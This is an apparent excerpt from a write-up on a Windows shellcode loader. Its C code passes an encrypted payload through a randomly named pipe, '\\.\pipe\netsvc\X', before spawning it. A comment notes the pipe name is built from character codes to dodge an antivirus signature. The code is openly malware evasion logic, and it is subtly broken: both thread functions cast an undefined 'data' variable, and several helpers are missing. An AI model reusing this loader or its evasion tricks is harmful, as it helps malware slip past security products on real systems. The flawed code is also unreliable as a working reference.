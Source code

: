 ```c
BOOL client(char * buffer, int length) {
        DWORD  read = 0;
        HANDLE pipe = CreateFileA(pipename, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

        if (pipe == INVALID_HANDLE_VALUE)
              return FALSE;

        while (length > 0) {
                BOOL result = ReadFile(pipe, buffer, length, &read, NULL);
                if (!result)
                        break;

                buffer += read;
                length -= read;
        }

        CloseHandle(pipe);
        return TRUE;
}

DWORD server_thread(LPVOID whatever) {
        phear * payload = (phear *)data;

        /* setup a pipe for our payload */
        server(payload->payload, payload->length);

        return 0;
}

DWORD client_thread(LPVOID whatever) {
        phear * payload = (phear *)data;

        /* allocate data for our "cleaned" payload */
        char * buffer = (char *)malloc(payload->length);

        /* try to connect to the pipe */
        do {
                Sleep(1024);
        }
        while (!client(buffer, payload->length));

        /* spawn our payload */
        spawn(buffer, payload->length, payload->key);
        return 0;
}

void start(HINSTANCE mhandle) {
        /* switched from snprintf... as some A/V product was flagging based on the function *sigh* */
        sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));

        /* start our server and our client */
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&server_thread, (LPVOID) NULL, 0, NULL);
        client_thread(NULL);
}
```
First `sprintf` is used to create a pseudo-random pipe called `\\.\pipe\netsvc\X` where `X` is a random integer. `server_thread` will start a new named pipe server and copy the shellcode buffer into it. `client_thread` will read the shellcode from the pipe and the ncall those same spawn & free functions.
